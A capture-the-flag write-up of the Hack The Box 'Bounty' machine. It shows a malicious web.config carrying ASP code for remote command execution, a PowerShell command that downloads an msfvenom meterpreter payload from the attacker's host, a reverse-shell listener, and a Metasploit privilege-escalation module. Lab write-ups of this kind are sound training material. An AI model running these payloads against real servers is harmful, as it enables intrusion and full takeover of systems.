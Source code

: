```yaml
---
slug: bounty-writeup/
title: Bounty Writeup
date: 2018-10-29
category: attacks
subtitle: How to resolve HTB Bounty
tags: security, htb, pwn, web
image: https://res.cloudinary.com/fluid-attacks/image/upload/v1620330675/blog/bounty-writeup/cover_plk66f.webp
alt: Hand holding a pirate toy
description: In this article, we present how to exploit a Bounty machine's vulnerabilities and how to gain access as an Administrator and obtain the root flag.
keywords: HTB, Security, Hack the Box, Web, Writeup, Bounty, Vulnerabilities, Hacker, Ethical Hacking, Pentesting
author: Jonathan Armas
writer: johna
name: Jonathan Armas
about1: Systems Engineer, Security+
about2: Be formless, shapeless like water, Bruce Lee
source: https://unsplash.com/photos/NctO2nqkWCY
---
```


## Scanning Phase

First, we check the IP of the
[Bounty](https://www.hackthebox.eu/home/machines/profile/142) machine
and try a `ping` to see if we have access.

<div class="imgblock">

![ip](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330674/blog/bounty-writeup/bounty-ip_gqy6uf.webp)

</div>

**ping.**

``` bash
host$ ping -c2 10.10.10.93
```

<div class="imgblock">

![ping](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330675/blog/bounty-writeup/ping\_trcnb5.webp)

</div>

Then, we scan the ports with `nmap`. In this case, we’re going to use
basic `nmap`.

``` bash
host$ nmap 10.10.10.93
```

And, we see that there is only one port open `port 80`.

<div class="imgblock">

![nmap](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330675/blog/bounty-writeup/nmap_earkie.webp)

</div>

Then, we try to access `port 80` with our browser, and it opens a web
page with an image of Merlin.

<div class="imgblock">

![web-page](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330675/blog/bounty-writeup/web_fdltrp.webp)

</div>

As we see on this page, there is nothing more than an image, so we’re
going to scan the whole web server with `dirbuster` to see if we can
access something useful.

``` bash
host$ dirb http://10.10.10.91
```

<div class="imgblock">

![dirb-scan](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330674/blog/bounty-writeup/dirb_ozvyui.webp)

</div>

Here we found a folder where uploaded files are stored. We need the page
of the upload functionality. With `dirbuster`, and some options, we can
set different extensions and obtain what we are looking for. Since this
is a `Windows` machine, we are going to use `asp` and `aspx` extensions.

``` bash
host$ dirb http://10.10.10.91 -X .asp,.aspx
```

<div class="imgblock">

![dirb-scan2](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330672/blog/bounty-writeup/dirb2_kjlopp.webp)

</div>

<div class="imgblock">

![upload-page](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330672/blog/bounty-writeup/upload-page_eu4cfl.webp)

</div>

## Getting user

In the last step we got an upload page, but with no further
instructions. There we can try to upload an image and check the result.

<div class="imgblock">

![upload1](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330674/blog/bounty-writeup/upload1_ewlizg.webp)

</div>

But if we try with a webshell in `aspx` or `asp` it returns an error.

<div class="imgblock">

![upload2](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330673/blog/bounty-writeup/upload2_dgzfkc.webp)

</div>

The web server has a filter that possibly checks the extension of the
uploaded file. If you try with double extension it won’t work either.

So what can we do? In `Windows` there are `3` major types of extensions:
`asp`, `aspx`, and `config`. We already tried the `asp` and `aspx`
extensions, what happens if we upload a `web.config` file?

``` xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*"
           modules="IsapiModule"
           scriptProcessor="%windir%\system32\inetsrv\asp.dll"
           resourceType="Unspecified"
           requireAccess="Write" preCondition="bitness64" />
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
```

<div class="imgblock">

![upload11](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330674/blog/bounty-writeup/upload1_ewlizg.webp)

</div>

We can see the result is positive. The `web.config` file is used by
`IIS` servers to store settings that come with the installation of the
`API`.

With this, we can start to exploit this machine. There is a
vulnerability on the `web.config` file processing that could allow an
attacker to execute code remotely, by injecting `asp` code in the file
(More information can be found
[here](https://soroush.secproject.com/blog/2014/07/upload-a-web-config-file-for-fun-profit/)
).

So, in order to have remote code execution (`RCE`), we need to add the
following lines to our `web.config` file:

``` text
  <!--
  <%
  Response.write("-"&"->")
  Response.write("</p><pre>")
  Set wShell1 = CreateObject("WScript.Shell")
  Set cmd1 = wShell1.Exec("cmd.exe /c whoami")
  output1 = cmd1.StdOut.Readall()
  set cmd1 = nothing: Set wShell1 = nothing
  Response.write(output1)
  Response.write("</pre><p><!-"&"-")
  %>
  -->
```

Then, we upload it, and access the file via the web, as before.

<div class="imgblock">

![rce-ok](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330674/blog/bounty-writeup/rce-ok_ae3o75.webp)

</div>

**Eureka\!** With this, we can have our user flag, but we want an active
shell that we can use for further enumeration. For this, we can use
`msfvenom`. This is a tool that creates payloads in order to gain access
to a machine. It is installed by default on `Kali`; it also comes with
the installation of `Metasploit`. Then, we upload our file to the server
with our `RCE` and start a web server on our side to download our
exploit.

First, the exploit with msfvenom:

``` bash
host$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=ip.ip.ip.ip LPORT=port -f exe -o myexploit.exe --smallest
```

This will create a malicious file. When executed on the server it will
give us a reverse shell with our `RCE` file using `meterpreter`. This is
an advanced, dynamically extensible payload that uses in-memory `DLL`
injection stagers, and is extended over the network at runtime.

Then we need to start a web server in our machine. We can do it with
`Python` by running:

``` bash
host$ python -m SimpleHTTPServer 7000
```

To make the server download our file, we can use the next `PowerShell`
command in our `web.config` file replacing the `whoami` one:

``` xml
Set cmd1 = wShell1.Exec("cmd.exe /c powershell -NoProfile -ExecutionPolicy unrestricted -Command (new-object System.Net.WebClient).Downloadfile('http://ip.ip.ip.ip:7000/myexploit.exe', 'C:\Windows\Temp\myexploit.exe')")
```

Upload it, and then open it on a private tab. Now, we can see that the
server downloaded our file.

<div class="imgblock">

![download](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330672/blog/bounty-writeup/download_cxvzgn.webp)

</div>

Then we need to start our listener. We can use `Metasploit` to do it:

``` bash
host$ msfconsole
msf > use exploit/multi/handler
msf exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
msf exploit(multi/handler) > set LHOST ip.ip.ip.ip
msf exploit(multi/handler) > set LPORT port
msf exploit(multi/handler) > run
```

With this, we are ready to initiate our reverse shell. In order to do
it, we need to run our exploit on the server with the same `RCE` method
as before, changing the command to the following:

``` xml
Set cmd1 = wShell1.Exec("cmd.exe /c C:\Windows\Temp\myexploit.exe")
```

Upload it, open the page of the `web.config` file and we have our
reverse shell.

<div class="imgblock">

![reverse-shell](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330671/blog/bounty-writeup/reverse-shell_v0yoxx.webp)

</div>

## Getting root

With `meterpreter` we can start to enumerate the server.

<div class="imgblock">

![sys-info](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330674/blog/bounty-writeup/sys-info_wlfn7g.webp)

</div>

And, we see that the server has an `x64 Architecture`. We are going to
repeat the process (`msfvenom`, `upload`, `handler`, `run`) but now with
the payload:

``` text
windows/x64/meterpreter/reverse_tcp
```

Then, when we have another session opened, we are going to run the next
one:

``` bash
meterpreter > run post/multi/recon/local_exploit_suggester
```

<div class="imgblock">

![exploit-suggester](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330674/blog/bounty-writeup/exploit-suggester_cr3q7v.webp)

</div>

Here we got some exploits that we can use to elevate to `Administrator`,
we are going to use the first one with:

``` bash
meterpreter > background
msf exploit(multi/handler) > use exploit/windows/local/ms10_092_schelevator
msf exploit(windows/local/ms10_092_schelevator) > set SESSION sessionnum
msf exploit(windows/local/ms10_092_schelevator) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
msf exploit(windows/local/ms10_092_schelevator) > set LPORT port
msf exploit(windows/local/ms10_092_schelevator) > set LHOST ip.ip.ip.ip
msf exploit(windows/local/ms10_092_schelevator) > run
```

When it finishes, we will have a new session created and with user `NT
Authority\System`.

<div class="imgblock">

![admin](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330673/blog/bounty-writeup/admin_bqoqsf.webp)

</div>

With this we can read our `root` flag.

On this challenge, we learned there was a vulnerability with the
`web.config` file. We also learned to always check the architecture when
we access a machine as a user, and how to use some of the `meterpreter`
commands.
